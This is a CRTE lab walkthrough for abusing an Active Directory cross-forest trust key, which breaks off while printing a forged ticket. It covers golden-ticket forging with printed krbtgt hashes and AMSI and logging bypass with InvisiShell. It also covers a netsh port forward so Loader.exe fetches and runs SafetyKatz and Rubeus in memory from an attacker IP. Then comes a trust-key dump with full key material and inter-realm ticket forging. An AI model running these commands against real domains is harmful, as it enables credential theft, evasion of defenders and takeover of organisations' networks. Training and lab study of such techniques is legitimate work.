CRTE - Certified Red Team Expert
Cross Forest Attacks - Trust Key Abuse to Access Explicitly Shared Resources
When working in multi-forest Active Directory environments, understanding the attack paths available through cross-forest trusts is essential. One technique we must focus on is Trust Key Abuse to Access Explicitly Shared Resources. This research aims to break down this method and explain the key concepts behind it, so we can later apply it in practice during our lab work.
What is a Forest Trust Key?
When two forests establish a trust relationship, each side of the trust generates a password (Trust Key) that is shared between the two forests. This key is used to sign and validate cross-forest Kerberos tickets.
If we compromise Domain Admin in our forest (Forest A), we can extract the Trust Key for the forest trust with Forest B. With this key, we can forge tickets that represent any user from Forest A when accessing resources in Forest B.
Why Does the Trust Key Matter?
The Trust Key is like a secret password between the two forests. It allows our forest to vouch for users when they request access to resources in the trusted forest.
If we have the Trust Key, we can forge inter-realm Kerberos tickets (also called Trust Tickets) that make us appear as any user from Forest A when accessing Forest B.
This does not give us automatic admin access in Forest B, but it allows us to access whatever resources are explicitly shared with users from Forest A.
Trust Key Abuse to Access Explicitly Shared Resources
This attack focuses on leveraging the Trust Key to access resources in Forest B that have been explicitly shared with Forest A.
Steps to Perform the Attack:
- Compromise Domain Admin in Forest A (eu.local).
- Extract the Trust Key for the trust between Forest A and Forest B (euvendor.local).
- Forge an inter-realm TGT (Trust Ticket) for any user in Forest A.
- Access resources in Forest B that are explicitly shared with Forest A.
Why This Works:
- The forged Trust Ticket is signed with the valid Trust Key, so Forest B accepts it as legitimate.
- We impersonate a user from Forest A to access resources that are explicitly shared with our forest.
Limitation:
- We only get access to resources that are explicitly shared with Forest A.
- If no resources are shared with Forest A, this technique won’t achieve anything.
Checking for Explicit Resource Sharing
Once we obtain the Trust Key, our success depends entirely on whether Forest B has shared anything with Forest A.
Some common examples of explicit resource sharing across forests:
- Shared folders (SMB Shares) → e.g., a share open to "Domain Users" from Forest A.
- Group memberships → Forest B may add a group from Forest A to an ACL in Forest B.
- Permissions on printers, databases, or specific servers may allow users from Forest A.
We won't always know what is shared upfront, so we may need to explore systems in Forest B after forging the ticket.
Trust Attributes to Watch
When enumerating forest trusts, the following properties give us context on whether Trust Key Abuse is possible:
- TrustType: Uplevel (Forest Trust) → Indicates it is a modern forest trust, which supports Kerberos authentication across forests.
- SelectiveAuthentication: True/False → If True, users from Forest A need explicit permissions to authenticate to Forest B.
- TrustAttributes: Common values are 8 (TREAT_AS_EXTERNAL), 72 (FOREST_TRANSITIVE + TREAT_AS_EXTERNAL).
While these properties don’t block Trust Key Abuse, they tell us what kind of trust we are dealing with and whether authentication flow might be restricted.
Key Difference from SID History Injection
The core difference between Trust Key Abuse and SID History Injection is what we gain:
- Trust Key Abuse → We become a user from our forest, but only get what is explicitly shared with our forest.
- SID History Injection → We become a privileged group member in the trusted forest and get access based on that group’s permissions.
With Trust Key Abuse, nothing is shared? We get nothing.
With SID History Injection, if we inject a powerful group, we move freely in the trusted forest.
When we compromise Domain Admin in a forest, we should immediately enumerate the trusts:
- Extract the Trust Key to check for shared resources (Trust Key Abuse).
- Enumerate privileged groups with RID >= 1000 for SID History Injection.
Both attacks are valuable, but Trust Key Abuse is often the lower-hanging fruit. SID History Injection is more powerful but requires us to find a suitable group.
Understanding both paths allows us to pick the right one based on the environment.
Well we are assuming from this point that we have compromised the domain eu.local and now we do have Domain Admin under this domain.
Now, While we enumerate this compromised domain, we also found out that, this domain has another Cross-Forest Trust with another domain named euvendor.local.
We can abuse the Trust Key between these 2 forests (eu.local <----> euvendor.local) to access the euvendor.local forest.
Let’s start by extracting the Trust Key between Cross Forests. We should access the eu-dc$ which is the eu.local Domain controller and we can do it in several ways, since we already compromised that domain and we do have the KRBTGT key. We can create a Golden ticket and this way we can access the EU-DC$ domain controller or we can simply use the EU-DC$ Administrator’s cred and access the server.
> Bare in mind that Diamond Ticket does not work in Cross-Forest Trusts, Only in Cross-Domain Trust, and because we are currently attacking from eu.techcorp.local domain, we are not able to forge a Diamond Ticket in this scenario.
Forging a Golden Ticket to Access eu.local’s Domain controller (dc-eu.local)
**EU.LOCAL KRBTGT BELOW:
**User: krbtgt
NTLM: 83ac1bab3e98ce6ed70c9d5841341538
AES256: b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d
Let’s start by encoding our Rubeus.exe argument (golden) using ArgSplit.bat file and do the copy/paste into the session were we will be executing Rubeus.exe.

Let’s now use Loader.exe to execute Rubeus.exe in the memory and forge the inter-realm Golden ticket and open a new session as eu.local domain Administrator user.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /aes256:b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d /show /ptt

Uploading files into EU-DC$ machine
We will be uploading some files to carry on our enumeration from eu.local domain Controller. Let’s start by uploading InvisiShell.
InvisiShell is a tool designed to bypass security controls in PowerShell, allowing for the stealthy execution of scripts by circumventing enhanced logging mechanisms and detection by security software.
Here’s a detailed explanation of how InvisiShell works:
- Bypassing PowerShell Security Measures: InvisiShell is specifically created to bypass system-wide transcription, script block logging, and the Anti-Malware Scan Interface (AMSI).
These are security features that Microsoft implemented to monitor and log PowerShell activity.
- System-wide transcription logs all PowerShell commands and their output.
- Script block logging records the content of PowerShell scripts.
- AMSI scans scripts for malicious content before they are executed.
- Hooking .NET Assemblies: InvisiShell achieves its bypass by hooking into the .NET assemblies
System.Management.Automation.dllandSystem.Core.dll. - This is accomplished using a CLR (Common Language Runtime) profiler API.
- A CLR profiler is a DLL loaded by the CLR at runtime to intercept and modify the behavior of these assemblies via the profiling API.
- Methods of Use: InvisiShell can be launched in two ways, depending on the user's privileges:
- With administrator privileges: The
RunWithPathAsAdmin.batscript is used. - Without administrator privileges: The
RunWithRegistryNonAdmin.batscript is used. This method creates a CLR profiler and starts a new PowerShell session with disabled logging. - Incapacitating Security Features: By hooking into these .NET assemblies, InvisiShell disables system-wide transcription, AMSI, and script block logging for the current PowerShell session.
- Avoiding Detection: When using InvisiShell, the tool hooks to
System.Management.Automation.dllandSystem.Core.dll, which allows it to avoid system-wide transcription, script block logging, and AMSI. - Integration with Other Tools: The sources show that InvisiShell can be used in conjunction with other tools, such as PowerUp, PowerView, the AD module, and other PowerShell scripts.
- Clean-up Process: To complete the clean-up, users must type
exitin the new PowerShell session created by InvisiShell. - Modified Version: The class uses a slightly modified version of InvisiShell.
- Location of Tools: All the tools, including InvisiShell, used in the lab environment are located in the
C:\ADdirectory on the student VM. The lab manual also notes that this directory is exempted from Windows Defender, but AMSI may still detect some tools when loaded. - InvisiShell and Binaries: It is noted that binaries like
Rubeus.exemay be inconsistent when used from within an InvisiShell session and should be run from a normal command prompt. - Example Usage: The lab manual provides examples of using InvisiShell to launch a PowerShell session, import modules, and run commands to exploit a service, bypass AMSI, and extract credentials from a remote machine.
In summary, InvisiShell is essential for maintaining stealth in the lab environment by allowing the user to execute PowerShell scripts without triggering the enhanced logging and security features of Windows. The tool is used to bypass security controls in PowerShell, specifically designed to circumvent enhanced logging mechanisms and detection by security software.
It’s always good that we do run Invisi-Shell via cmd before we start doing our enumeration and right after script execution, Powershell will be executed. This script should be executed depending on the type of privilege we do have on the machine.
If we are just a simple low level privileged user, then we should run `RunWithRegistetyNonAdmin.bat.
If we are a high level privileged user like Administrator for example, then we should run RunWithPathAsAdmin.bat.echo D | XCOPY C:\AD\Tools\InviShell \\EU-DC.eu.local\C$\Users\Public /E /H /C /I /Y`

Let’s upload our .Net loader to the EU-DC$, we will be using this loader to run Rubeus.exe in the memory, avoiding MDI Detection.
We won’t be mapping any driver x as usual because mapping drivers do no work with Cross-Forest Trust, so we can copy the file with the following way.
echo F | XCOPY C:\AD\Tools\Loader.exe \\eu-dc.eu.local\C$\Users\Public\Loader.exe /y

We should Also upload ADModule for our enumeration with ADModule.
echo D | XCOPY C:\AD\Tools\ADModule-master \\EU-DC.eu.local\C$\Users\Public /E /H /C /I /Y

Breaking Down the Command:
XCOPY→ The command for copying files and directories.C:\AD\Tools\ADModule-master→ The source folder you want to copy.\\EU-DC.eu.local\C$\Users\Public→ The destination folder./E→ Copies all subdirectories, including empty ones./H→ Copies hidden and system files./C→ Continues copying even if errors occur./I→ Assumes the destination is a directory (avoids prompts)./Y→ Suppresses overwrite confirmation prompts.
Last but not least we will be uploading PowerView module as well.
echo F | XCOPY C:\AD\Tools\PowerView.ps1 \\EU-DC.eu.local\C$\Users\Public /Y

Now that we have uploaded all the files that we will need inside the eu.local DC, let’s start by running InvisiShell to try to bypass PowerShell defense mecanisms like, System-wide transcription, Script Block Logging, AMSI, .
.\RunWithRegistryNonAdmin.bat

Now that we were able to execute InvisiShell and we could bypass PowerShell defense mecanisms, we can carry on with our Trusts enumeration that eu.local domain contains.
Enumerating Trust Forests with AD Module
We need to be aware that ADModule is always enabled on Windows Server, so we do not need to import ADModule on a Windows server, only in workstations.
We can also map or enumerate all the Trusts we do have from the current domain we are part of (eu.local).
Please, be aware that, because we are using winrs to remote access the EU-DC$, Import-Module will no work with .ps1 files, in this case we will be using dot source solution.
We can do our enumeration on Trusts in eu.local domain.
Get-ADTrust -Filter *

- Direction: Shows the direction of the trust. It can be
Inbound,Outbound, orBidirectional(in this case, Bidirectional). - DisallowTransitivity: Indicates whether transitive trust is disabled.
Truemeans transitivity is blocked,Falsemeans transitive trust is allowed. - DistinguishedName: The LDAP path to the trusted domain object within AD.
- ForestTransitive: Specifies if the trust is forest-wide transitive.
Truemeans it allows authentication across the entire forest. - IntraForest: Indicates whether the trust is within the same forest.
Trueif it is,Falseif it’s cross-forest. - IsTreeParent: Specifies if the trusted domain is the parent in a domain tree structure. Typically
Falsein cross-forest trusts. - IsTreeRoot: Indicates if the trusted domain is a root domain in a tree. Usually
Falseunless it’s a tree-root trust. - Name: The DNS name of the trusted domain (
euvendor.local). - ObjectClass: The object type, typically
trustedDomainfor trust objects. - ObjectGUID: The unique identifier (GUID) of the trust object in AD.
- SelectiveAuthentication:
Trueif selective authentication is enabled, meaning only specific users are allowed to authenticate across the trust. - SIDFilteringForestAware: Indicates if SID filtering is enabled with forest awareness.
Truemeans SID filtering is enforced to protect against SID history attacks. - SIDFilteringQuarantined: Shows if SID filtering is in quarantine mode.
Truemeans extra restrictions are applied. - Source: The source domain (your current domain).
- Target: The target trusted domain (
euvendor.local). - TGTDelegation:
Trueif the trust allows TGT delegation (Kerberos delegation across the trust). - TrustAttributes: A numeric value representing specific trust settings (bitmask).
- TrustedPolicy: Policy details for the trusted domain (often empty unless custom policies are applied).
- TrustingPolicy: Policy details for your domain’s side of the trust (often empty unless custom policies are applied).
- TrustType: Describes the type of trust.
Uplevelmeans it’s a trust with another Active Directory domain. - UplevelOnly:
Trueif the trust is only for Active Directory domains (not NT4 or legacy systems). - UsesAESKeys:
Trueif the trust supports AES encryption for Kerberos. - UsesRC4Encryption:
Trueif the trust supports RC4 encryption for Kerberos.
This means we potentially have a path to pivot into those environments if we escalate privileges locally. Trusts like these often open doors for cross-domain attacks, we might be able to move laterally into us.techcorp.local (which we already compromised) or euvendor.local, depending on how the trusts are configured.
Enumerating Trusts with PowerView
It is also possible to achieve the same enumeration above by using PowerView module, so let’s Import PowerView into our target. Once again, using Import-Module won’t work fine here since we are using winrs to remotelly access the eu.local domain controller. Let’s use Dot Sourcing to achieve this task.
. .\PowerView.ps1Get-DomainTrust -Verbose

As we can see above, PowerView output seems to be more friendly in my option and it is self-explanatory.
- SourceName – This is the domain we’re currently enumerating from (in this case,
eu.local). - TargetName – This is the domain that our domain trusts (e.g.,
us.techcorp.localoreuvendor.local). - TrustType – Specifies the type of trust:
- WINDOWS_ACTIVE_DIRECTORY means it’s a standard AD trust between domains.
- TrustAttributes – Flags describing trust behavior:
- FILTER_SIDS means SID filtering is enabled (restricts SID history attacks).
- TREAT_AS_EXTERNAL is often seen in forest trusts, treating it like an external trust for tighter security.
- FOREST_TRANSITIVE means the trust is transitive across the entire forest, allowing potential pivoting deeper.
- TrustDirection – Describes the flow of trust:
- Bidirectional means both domains trust each other (full two-way trust).
- WhenCreated – Timestamp for when the trust was first created.
- WhenChanged – Timestamp for when the trust was last modified.
This output gives us key insights into our potential pivoting paths, whether SID filtering blocks abuse, and whether we might leverage forest transitivity for wider access.
Enumerating SMB Shares from Forest Trusts with PowerView
We should alway enumerate the shares we are able to access to, in this case, it is always a good approach to enumerate if we do have Shares between our Trust Forest Domains. Now that we do have information of the Forest Trust we do have, let’s start by enumerating our new target Domain Controlle and we will do this using PowerView module.
Enumerating Domain Controllers.
Get-DomainController -Domain euvendor.local -Verbose

We can see that euvendor.local domain controller is euvendor-dc.euvendor.local.
Enumerating SMB Shares
Invoke-ShareFinder -ComputerName euvendor-dc.euvendor.local -Verbose

The PowerView Invoke-ShareFinder output shows shared resources on euvendor-dc.euvendor.local.
Here’s what matters for us:
- Interesting Explicit Shares:
euadminsandeushare→ Likely contain files, scripts, or sensitive data shared with our domain.- Standard DC Shares:
SYSVOLandNETLOGON→ Often hold GPOs, login scripts, and sometimes plaintext creds (GPP cpassword).- Admin-Only Shares:
ADMIN$andC$→ Need local admin rights to access, usually not touchable unless we escalate.
Portforwarding to bypass EDR
What If we simply download and execute Rubeus in memory now using our Loader.exe on the target machine?
We could simply run Rubeus calling it straight from our attacking IP, but we would easily be caught by Defender or any sort of defense mechanism in place on our network.
Let’s highlights the importance of my statement above.
Evading detection by security tools when performing actions such as credential dumping with tools like SafetyKatz can be a trigger to compromise all our Red Team operation and let me tell you why.
- Direct Execution is Easily Detected: Running tools like Rubeus directly from an attacker's IP address makes it easy for security tools to detect the activity. Security mechanisms, such as Windows Defender and Microsoft Defender for Endpoint (MDE), are designed to identify known malicious tools, their signatures, and their behaviors.
- Signature-Based Detection: Security tools often use signature-based detection to identify known malicious software. If Rubeus is run directly, its known signatures can trigger alerts.
- Behavior-Based Detection: Security tools also monitor the behavior of programs. Running Rubeus directly, especially when it tries to access the memory of the LSASS process, can trigger behavioral-based detections.
- Network Traffic Monitoring: When Rubeus is executed from an external IP, it generates network traffic that can be monitored and flagged by security tools.
- Downloading from External Sources: Downloading an executable from a remote machine is considered suspicious and can trigger behavior-based detection by Windows Defender.
- Process Creation and Command Line Logs: Process creation logs and command line logs can reveal suspicious activity, such as the execution of known hacking tools with particular arguments.
- LSASS Process Access is a Red Flag: Tools like SafetyKatz attempt to access the LSASS process to extract credentials from memory. This is a highly suspicious activity that will easily be detected and is a major indicator of a malicious attack.
- Bypassing Detection Mechanisms: To avoid detection, attackers need to implement various bypass techniques, including:
In summary, running Rubeus directly from an attacking IP is highly likely to be detected by most modern security tools. Therefore, attackers use advanced techniques like obfuscation, memory loading, process injection, and port forwarding to evade detection. The course material emphasizes these techniques in order to learn about these types of attacks and to improve red team Opsec.
To avoid being caught by any defensive mechanism, we can simply create a PortForwarding on the target machine then call Rubeus using it’s localhost IP.
Let’s remotelly access the us-web server and configure the portforwarding.
winrs -r:eu-dc.eu.local cmdnetsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=192.168.100.163

netsh interface portproxy add v4tov4:
- Obfuscation: Obfuscating the tool's code and arguments to avoid signature-based detection. This can involve renaming variables, removing comments, and encoding parameters.
- Memory Loading: Loading the tool into memory without writing it to disk, using a tool like a loader, avoids file-based detection.
- Process Injection: Injecting shellcode into a trusted process can allow covert execution without using standard API calls that are heavily monitored.
- Port Forwarding: Forwarding network traffic from the local machine to a student VM can mask the attacker's IP address and evade detection.
- Using Built-in Tools: The course emphasizes using built-in tools as much as possible, as they are less likely to be flagged by security software. For example, using
netshto set up port forwarding or built-in Windows utilities over custom tools. - Mimicking Normal Behavior: Downloading tools using a web browser instead of a command-line tool, for example, can help blend in with normal network activity.
netsh interface portproxy: This is the part of thenetshutility that deals with port forwarding. It allows forwarding TCP traffic from one IP/port combination to another.add: Specifies that you're adding a new forwarding rule.v4tov4: Indicates that both the listening and connecting addresses use IPv4.
2. listenport=8080:
- The port on the local machine (target machine) where the service will "listen" for incoming connections.
- In this case, the machine will listen on port
8080.
3. listenaddress=127.0.0.1:
- The IP address on the local machine where the service will listen for connections.
0.0.0.0means it will listen on all network interfaces available on the machine (e.g., public, private, or loopback IPs).
4. connectport=80:
- The port on the remote machine (Out Attacking Machine) to which traffic will be forwarded.
- In this case, port
80(commonly used for HTTP).
5. connectaddress=192.168.100.163:
- The IP address of the remote machine (Our Attacking Machine).
This port forwarding setup redirects traffic received on port 8080 from our compromised machine to port 80 on our attacking macchine (192.168.100.163), which acts as a bridge.
We can check this portforwarding with the following command:
netsh interface portproxy show all

Hosting SafetyKatz
We should be hosting our SafetyKatz in our attacking host. This will be requested by our Target EU-DC$.

Disabling Defender
Before we carry on with our target host, we need to disable our firewall on our side. This way we can host the file on our machine with no issues, without having the firewall complaining.

Now let’s first start by encoding our Safetykatz argument (lsadump::trust) using ArgSplit.bat file and copy/paste the encoded argument into US-DC host where we will be running SafetyKatz.
ArgSplit.bat

We should now be able to execute SafetyKatz on the DC and request for the Trust Key for eu.local to euvendor.local.
C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn% /patch" "exit"

`bash
EU.LOCAL (EU / S-1-5-21-3657428294-2017276338-1274645009)
Domain: EUVENDOR.LOCAL (EUVENDOR / S-1-5-21-4066061358-3942393892-617142613)
[ In ] EU.LOCAL -> EUVENDOR.LOCAL
* 2/11/2025 9:03:15 PM - CLEAR - f5 7e 9c d0 ff d1 ce 8b 19 fc aa 7b 29 d6 ec 32 03 02 96 f2 7c 18 8b 40 87 fc fd 85 ab f3 b0 41 f1 2c 21 04 8b 92 87 46 7c c1 47 6d d9 6d 7e d0 89 f6 d5 ee 9c 21 e4 6f 69 c4 89 2b 61 40 29 80 9d 40 e4 8c b9 e8 04 64 b4 12 5e b8 e1 d4 b1 25 8f f2 ca 09 f9 18 fe 32 53 d6 c9 93 2a d5 fa 7f a5 60 66 96 fa 77 01 7a 14 ef 50 fe 2f ca c2 a2 36 72 59 51 f7 b6 4e 76 47 ef 63 a0 ec 45 d6 24 6c f7 bd d5 c9 d0 c6 9f 6e c6 c9 55 4f 0a 26 d8 ef e4 06 2f 80 43 fb 52 72 c0 aa 40 a7 c1 ee 93 e8 66 a3 9c 60 ed 3a 7d 37 4e f4 6e 10 cc 14 71 35 85 01 07 70 4a 6f a0 22 57 65 41 7a 72 86 75 22 59 7e f6 6c 7a 0b 5a ac a4 30 19 7b 77 e0 ed 97 1e 46 c8 03 d1 40 64 05 82 20 19 4e 8d c2 1a ba 87 66 11 71 b5 bb 9a d8 94 62 92 6e e6 f5 36
* aes256_hmac c197d2f364de43df95ff8ef720a1d3e2453c1aaf938085dfaa8b26b9dfcb507a
* aes128_hmac aae3770ef8a650ef873d2991b18a5f1e
* rc4_hmac_nt 1de227d91293ec91b29980a5d9203241
`
Forging the Ticket Inter-Real Silver Ticket
With this Trust Key we can now forge our Inter-realm Golden ticket,
In the first step, we are generating a Silver Ticket using the AES256 trust key. This ensures better stealth, as AES256 keys are less likely to trigger security alerts compared to RC4. We are crafting a Kerberos service ticket for LDAP under the eu.local domain, impersonating the Administrator account. Additionally, we are adding the eu.local SID (S-1-5-21-3657428294-2017276338-1274645009) to the ticket. By including /opsec, we reduce potential detection by security tools.
Back to our attacking machine, we should be able to forge this ticket. We should encode the Rubeus argument(silver) with ArgSplit.bat and do the copy/paste into our session were Rubeus will be executed.
ArgSplit.bat

Using Rubeus will be using silver flag for that.
C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /user:administrator /ldap /service:krbtgt/eu.local /aes256:c197d2f364de43df95ff8ef720a1d3e2453c1aaf938085dfaa8b26b9dfcb507a /sid:S-1-5-21-3657428294-2017276338-1274645009 /opsec /nowrap

`bash
doIFJzCCBSOgAwIBBaEDAgEWooIEIDCCBBxhggQYMIIEFKADAgEFoQobCEVVLkxPQ0FMoh0wG6ADAgECoRQwEhsGa3JidGd0GwhldS5sb2NhbKOCA+AwggPcoAMCARKhAwIBA6KCA84EggPKG4gtZs082njGNf6c8WG4oLtmihwoM8RaIPCAcZMRMhaPmYxJZgtNr5j85wBEk/J8VEWB0WI0JRNsmozeFbmi739S6DnUPSfocklkHMbEmBjGZV62o41vHb/Y6PbvWNEcngYJ6LGqQOteN/xwb+A+8b5hH+I516RZz0duo2gp7f0vrR64J9ERJU9FXw+JcsJOOHAAw8k1rjfEC1htzLylVUflRwSa58iS9elAf8WHUrdAdL2EIYVz5vEMw2cXEk3BmndR/vVj1ht+u/lKsYgAHbLMxKhhh9JI27dLH1EjP+kXrB710EnfReVCj+LrZd91UjIS1g28rSOZ8+dZmk2DjNfNRuXIPAf/Mn/CSBA3SCEmNL7yLpm294vMi+51RhyvtaVurXXdSZk/eT9fa4C2oUDv46ieaduuX4etn9MHL8MsWPNGz+yxp0z9H5z10zTSanPCJN+2QyFLwGDTVgdnCuoU69Po05gIocMvjuKyoo+/bhF2EScU5o5lzwzCQ0RylwMZZj3SnzTap4J+QmFAV6aQWeExI1xKvGCAi5odFaMaMvBbO8sbwwH1ivenPX20ab9wFMBshvFggoYec9Xn5fsqmX35GD7AgAcNZbbjfy0Nkmt2YbpB0GL3PkoYwFQr3d2cPYEHssS52dVI/N77oJx3Way9yKSgcNX/PdfgU0LJ2kkkG3g6/aG2EujkzZeNUDN27fN4oo2ItKU5Ub7gATJ2WXfBi27XgPLw6nmiew53dVCe4OddBJr6kCF6qFYXeYwkdeP2FTmDQEgG3jO5SZd2CGU+y8U+zj8I+ompgegu02YBBnT2g0Bwd9Boj4VFSx4rsGvY5dC6O6RWVHwiazZq1prpHUIdBPj